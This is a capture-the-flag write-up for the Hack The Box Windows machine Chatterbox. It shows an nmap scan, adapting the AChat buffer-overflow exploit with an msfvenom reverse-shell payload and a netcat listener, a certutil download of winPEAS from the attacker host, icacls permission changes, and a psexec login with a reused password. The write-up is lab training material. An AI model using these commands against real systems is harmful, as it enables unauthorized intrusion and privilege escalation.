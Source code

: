 ```yaml
---
title: "Chatterbox - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Chatterbox
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - medium
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Chatterbox
![](https://kar0nx.github.io/assets/images/writeup/0d153f144af7b3b7213787c7e42df7d2.webp)

## Reconnaissance

IP: 10.10.10.74
### NMAP

```
nmap -T4 -A -p- 10.10.10.74
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-07 07:52 EST
Nmap scan report for 10.10.10.74
Host is up (0.032s latency).
Not shown: 65524 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  http         AChat chat system httpd
|_http-title: Site doesn't have a title.
|_http-server-header: AChat
9256/tcp  open  achat        AChat chat system
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/7%OT=135%CT=1%CU=36666%PV=Y%DS=2%DC=T%G=Y%TM=67CA
OS:EC8C%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=106%TI=I%CI=I%II=I%SS=S%
OS:TS=7)SEQ(SP=104%GCD=1%ISR=107%TI=I%CI=I%II=I%SS=S%TS=7)SEQ(SP=104%GCD=2%
OS:ISR=106%TI=I%CI=I%II=I%SS=S%TS=7)OPS(O1=M53CNW8ST11%O2=M53CNW8ST11%O3=M5
OS:3CNW8NNT11%O4=M53CNW8ST11%O5=M53CNW8ST11%O6=M53CST11)WIN(W1=2000%W2=2000
OS:%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M53CNW8NNS%C
OS:C=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%
OS:T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD
OS:=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=8
OS:0%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-03-07T17:54:00
|_  start_date: 2025-03-07T17:37:00
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-03-07T12:53:59-05:00
|_clock-skew: mean: 6h39m31s, deviation: 2h53m13s, median: 4h59m30s
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   30.68 ms 10.10.14.1
2   30.86 ms 10.10.10.74

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 131.31 seconds
                                                                                 
```

Nmap shows some open port: 135 - rpc, 139, 445 - smb,  9255, 9256 - achat
Let's search for exploits for achat

```
searchsploit achat    
```

Remote Buffer Overflow
https://www.exploit-db.com/exploits/36025

## Gaining access

```
cp /usr/share/exploitdb/exploits/windows/remote/36025.py 3.py
```

let's adapt the exploit to our machine and make reverse shell

```
gedit 3.py
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307135919.png)

in terminal:

```
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

in gedit replace "buf" lines with "buf" output lines form msfvenom
also change udp socket to our target machine:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307142203.png)

set nc

```
nc -nvpl 443
```

and run script

```
python2 3.py
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307142419.png)

we have shell. Now grab first flag  

```
type c:/users/alfred/desktop/user.txt
```

## Privilege Escalation

For manual we can use checklist

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html

or we can use winpeas to enumerate:

```
python3 http.server 80
```

```
certutil -urlcache -f http://10.10.14.15/winPEASany.exe win.exe
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307152226.png)

Winpeas show interesting information that Alfred have full access in c:\users\administrator
so we can use command 'icacls' and grab root flag very fast.

```
c:\Users\Administrator\Desktop>icacls .\*
icacls .\*
.\desktop.ini NT AUTHORITY\SYSTEM:(I)(F)
              CHATTERBOX\Administrator:(I)(F)
              BUILTIN\Administrators:(I)(F)
              CHATTERBOX\Alfred:(I)(F)

.\root.txt CHATTERBOX\Administrator:(F)

Successfully processed 2 files; Failed processing 0 files

c:\Users\Administrator\Desktop>icacls root.txt /grant CHATTERBOX\Alfred:(F)
icacls root.txt /grant CHATTERBOX\Alfred:(F)
processed file: root.txt
Successfully processed 1 files; Failed processing 0 files

c:\Users\Administrator\Desktop>type root.txt
```

We have root flag but not privilege.
For privilege we can connect to administrator account using psexec.py form Impacket library

```
psexec.py administrator@10.10.10.74
	password - Welcome1!
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307153219.png)

And now we have root access.